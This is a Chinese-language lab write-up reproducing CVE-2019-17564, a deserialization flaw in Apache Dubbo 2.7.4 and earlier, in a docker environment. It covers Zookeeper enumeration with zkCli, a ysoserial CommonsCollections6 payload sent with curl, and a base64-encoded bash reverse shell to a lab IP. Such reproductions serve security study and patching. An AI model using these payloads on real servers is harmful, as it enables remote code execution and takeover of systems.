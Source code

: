 # Apache Dubbo Java反序列化漏洞 CVE-2019-17564

## 漏洞描述

Apache Dubbo是一款高性能、轻量级的开源Java RPC服务框架。RPC，全称为Remote Procedure Call，即远程过程调用，它是一个计算机通信协议。它允许像调用本地服务一样调用远程服务。

Dubbo可以使用不同协议通信，当使用http协议时，Apache Dubbo直接使用了Spring框架的`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`类做远程调用，而这个过程会读取POST请求的Body并进行反序列化，最终导致漏洞。

在Spring文档中，对`HttpInvokerServiceExporter`有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞影响

```
Apache Dubbo 2.7.4及以前版本
```

Apache Dubbo 2.7.5后Dubbo使用`com.googlecode.jsonrpc4j.JsonRpcServer`替换了`HttpInvokerServiceExporter`。

## 环境搭建

执行如下命令启动一个Apache Dubbo 2.7.3 Provider：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`，服务器默认会返回500错误。

## 漏洞复现

利用该漏洞需要先知道目标RPC接口名，而Dubbo所有的RPC配置储存在registry中，通常使用Zookeeper作为registry。如果能刚好找到目标的Zookeeper未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub对外开放了8080端口和2181端口，其中2181即为Zookeeper的端口，本地下载[Zookeeper](https://zookeeper.apache.org/)，使用其中自带的**zkCli**即可连接到这台Zookeeper服务器。

依次执行以下命令下载、解压、使用zkCli工具：

```
$ wget https://dlcdn.apache.org/zookeeper/zookeeper-3.7.0/apache-zookeeper-3.7.0-bin.tar.gz
$ tar xvf apache-zookeeper-3.7.0-bin.tar.gz
$ cd apache-zookeeper-3.7.0-bin/bin
$ ./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用`ls`即可列出其中所有节点，包括Dubbo相关的配置：

![image-20220222214720363](images/202202222147467.png)

获取到RPC接口名为`org.vulhub.api.CalcService`。直接用ysoserial生成CommonsCollections6的Payload作为POST Body发送到`http://your-ip:8080/org.vulhub.api.CalcService`即可触发反序列化漏洞：

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "touch /tmp/awesome_poc" > 1.poc

$ curl -XPOST --data-binary @1.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```

![image-20220222220814317](images/202202222208473.png)

进入docker，命令`touch /tmp/awesome_poc`执行成功：

![image-20220222220908304](images/202202222209355.png)

反弹shell：

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1 
# base64编码
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx
```

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" > shell.poc

$ curl -XPOST --data-binary @shell.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```

![image-20220222221020948](images/202202222210040.png)